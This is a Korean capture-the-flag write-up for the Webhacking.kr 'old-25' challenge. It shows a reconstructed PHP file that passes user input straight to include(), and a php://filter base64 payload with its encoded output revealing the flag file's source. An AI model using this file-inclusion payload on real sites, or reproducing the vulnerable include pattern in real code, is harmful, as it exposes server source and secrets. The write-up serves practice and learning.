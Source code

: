```yaml
---
title: ["[Webhacking.kr] old-25"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, php, wrapper]
---
```

## Intro
![문제 설명](assets/img/writeup/webhacking.kr/old-25/recon.png)

`file` 인자로 주는 값에 `.php`를 붙여 실행시키는 기능이 있어 보인다.  

## Analysis

```php
<?php
// index.php

if(isset($_GET['file'])) {
    $file = $_GET['file'];
    
    // Check file 
    if(file_exists($file . '.php')) {
        // run PHP file
        include($file . '.php');
    }
} 
?>
```  
백엔드의 코드는 이런식으로 인자로 받은 파일을 실행시킬 것이다.  
PHP의 `include`, `fopen`, `file_get_contents`와 같은 파일 시스템 관련 함수들은 모두 PHP wrapper를 인식하고 처리할 수 있다.  


`PHP wrapper`는 URL을 통해 다양한 리소스에 접근할 수 있게 해주는 기능이다.  
문제에서 flag는 code에 있다고 했으므로,  
`flag.php`의 소스코드를 필터를 사용해서 노출시킬 수 있다.  


## Payload

```
?file=php://filter/convert.base64-encode/resource=flag
```

```
PD9waHAKICBlY2hvICJGTEFHIGlzIGluIHRoZSBjb2RlIjsKICAkZmxhZyA9ICJGTEFHe3RoaXNfaXNfeW91cl9maXJzdF9mbGFnfSI7Cj8+Cg==
```  
출력값을 base64 디코딩하면 된다.  